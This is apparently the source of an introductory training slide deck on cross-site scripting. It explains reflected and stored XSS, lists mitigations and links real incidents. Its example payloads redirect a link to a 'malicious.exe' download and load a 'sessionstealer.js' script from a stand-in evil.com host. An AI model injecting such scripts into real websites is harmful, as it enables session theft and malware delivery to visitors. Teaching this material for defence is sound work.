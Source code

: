 ```yaml
---
layout: slide
title:  "Presentation 5 | Cross-site Scripting"
transition: slide
---
```


<section>

<img width="300px" src="{{site.baseurl}}/assets/images/code_academy.png">

<img width="300px" src="{{site.baseurl}}/assets/images/kali.png">

<h2>Offensive Security 101</h2>

<p><i>Cross-site Scripting</i></p>

</section>

<section data-markdown>

## Cross-Site Scripting (XSS)

- This occurs when an attacker injects malicious code into a trusted website or application.
- The end user’s browser has no way to know that the script should not be trusted, and will execute the script, because it thinks the script came from a trusted source.

</section>

<section data-markdown>

- The script may be able to access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.
- There are 2 common types, Reflected and Stored.
- Most commonly abused by using JavaScript or HTML.

</section>

<section data-markdown>

## Reflected XSS

- Also known as a non-persistent attack.
- Occurs when the attack is reflected off of the web server, E.g: search results, errors
- The attack is usually in the form of a malicious URL, which the victim unknowingly opens.

</section>

<section data-markdown>

## Reflected XSS Examples

- http://example.com/index.php?user=<script>alert(123)</script>
- This will cause a popup, stating '123' to appear.
- http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
- his will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

</section>

<section data-markdown>

## Mitigating Reflective XSS

- For the common user:
- Common sense.
- Don't click random, suspicious links in emails, social media, forums. Be vigilant.
- For the website owner:
- URL Sanitisation

</section>

<section data-markdown>

## Stored XSS

- This happens when malicious code is injected into the site/application itself.
- Whenever a victim visits the compromised site, the script is executed.

</section>

<section data-markdown>

## Stored XSS Example

- E.g: A hacker finds a website with a comment section that allows embedded html.
- They post the comment "Security sux! <script src="http://evil.com/sessionstealer.js"> </script>"
- Now, whenever the page is visited, the script (which is hosted externally) is run.
- So, unlike Reflected XSS, the victim only has to visit the page, not even actively click anything, to
  be attacked.

</section>

<section data-markdown>

## Mitigating Stored XSS

- Never insert untrusted data except in allowed locations.
- HTML escaping.
- Attribute escaping.
- JavaScript escaping.

</section>

<section data-markdown>

## Real world examples
- XSS on Twitter
- https://www.theguardian.com/technology/2014/jun/11/twitter-tweetdeck-xss-flaw-users-vulnerable

- (Sort of)
- https://www.theregister.co.uk/2018/01/27/cryptojackers_slip_coinhive_mining_code_into_doubleclick_ads/

</section>

<section data-markdown>

## Fin

</section>

